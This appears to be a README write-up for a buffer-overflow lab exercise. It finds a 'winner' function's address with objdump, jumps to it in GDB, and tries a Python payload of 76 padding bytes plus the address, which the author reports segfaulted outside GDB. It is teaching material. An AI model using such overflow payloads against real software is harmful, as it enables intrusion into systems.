

# ex06 README

## Objective
The goal of this exercise is to exploit a buffer overflow vulnerability to call the `winner` function, which prints a success message.

## Steps

### 1. Identify the `winner` Function Address
We start by finding the address of the `winner` function using the `objdump` tool:
```sh
objdump -t bin | grep winner 
```

This command provides the address of the `winner` function:

```plaintext

08048864 g     F .text  00000025              winner
```

The address of the `winner` function is `0x08048864`.

### 2\. Set a Breakpoint in GDB

We then use GDB to set a breakpoint at a known location in the `main` function:

```sh

gdb -q ./bin
```

Inside GDB, we set the breakpoint:
    
```sh
break *0x08048935
```

### 3\. Run the Program with Arbitrary Arguments

We run the program with arbitrary arguments to reach our breakpoint:

```sh
run a a a
```

### 4\. Jump to the `winner` Function

Once the breakpoint is hit, we manually jump to the `winner` function:

```sh

jump *0x08048864
```

This command redirects the execution flow to the `winner` function.

### 5\. Observe the Output and Continue

We observe the success message:

```plaintext

that wasn't too bad now, was it? @ <timestamp>
```


Finally, we continue the execution, which will lead to a segmentation fault but indicates we have achieved our goal:

```sh

continue
```

### Full GDB Command Sequence

Here is the full sequence of commands:

```sh

gdb -q ./bin
```

Inside GDB:

```sh

break *0x08048935
run a a a
jump *0x08048864
continue
```

### Testing the Payload

We also tested the payload directly:

```sh
payload=$(python -c "print 'A'*76 + '\x64\x88\x04\x08'")
./bin $payload
```


However, running the payload outside GDB resulted in a segmentation fault, indicating that direct exploitation was not straightforward due to the environment setup.

Difficulties Faced
------------------

1.  **Segmentation Faults**: Running the payload directly resulted in segmentation faults. This could be due to differences in how memory is managed outside of GDB.
2.  **Manual Intervention**: The most reliable method was using GDB to manually jump to the `winner` function. This involved manual steps and was not automatable in the same way as other exploits.
3.  **Address Space Layout Randomization (ASLR)**: Potential issues with ASLR could affect the repeatability of the exploit, but in this environment, it was controlled.

Conclusion
----------

The exercise demonstrated a buffer overflow vulnerability and how to exploit it using GDB. While direct exploitation was challenging due to segmentation faults, using GDB allowed us to manipulate the program's execution flow effectively. This method highlights the importance of understanding the environment and tools available when performing security assessments.